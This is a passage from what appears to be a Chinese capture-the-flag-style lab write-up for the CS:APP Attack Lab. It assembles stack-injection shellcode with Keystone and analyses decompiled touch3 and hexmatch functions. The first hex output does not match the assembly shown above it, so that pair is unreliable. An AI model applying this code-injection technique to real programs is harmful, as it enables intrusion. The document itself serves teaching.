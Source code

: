 ```python
from keystone import *

Shellcode_instruction = '''
mov rdi, 0x5561dca8
push 0x4018fa
ret
'''

KS = Ks(KS_ARCH_X86, KS_MODE_64)
code, count = KS.asm(Shellcode_instruction)
print(f"Hex\t{''.join(map(lambda x: ' ' + hex(x)[2:], code))}")
```
```
Hex      48 c7 c7 fa 97 b9 59 68 ec 17 40 0 c3
```
得到shellcode的二进制，接下来需要获得栈的地址，这一步推荐使用gdb下断点来获取rsp的值。  

## Phase 3
```c
int __fastcall hexmatch(unsigned int val, char *sval)
{
  const char *v2; // rbx
  char cbuf[110]; // [rsp+0h] [rbp-98h] BYREF
  unsigned __int64 v5; // [rsp+78h] [rbp-20h]

  v5 = __readfsqword(0x28u);
  v2 = &cbuf[random() % 100];
  __sprintf_chk(v2, 1LL, -1LL, "%.8x", val);
  return strncmp(sval, v2, 9uLL) == 0;
}
void __fastcall __noreturn touch3(char *sval /* rdi */)
{
  vlevel = 3;
  if ( hexmatch(cookie, sval) )
  {
    __printf_chk(1LL, "Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```
`touch3`基于`touch2`的基础上，将参数改为了一个字符串，通过`hexmatch`函数进行对比。  
`hexmatch`被传入了`cookie`，然后通过格式化输出十六进制到`cbuf`，再使用`strncmp`比较。  
但是在同样方法构造了`shellcode`之后，会发现`seg fault`了，原因是`hexmatch`开了100字节栈空间，会把我们注入的数据覆盖。所以我们需要寻找新的注入点，保证我们的数据不会被覆盖。  
观察代码，可以发现`test`的空间相对可用，同样使用`gdb`获得`rsp`的值
```x86asm
mov rdi, 0x5561dca8
push 0x4018fa
ret
```
```
Hex      48 c7 c7 a8 dc 61 55 68 fa 18 40 0 c3
```
值得注意的而是，`C-style string`是以`\0`结尾的，所以我们最后要加上00。
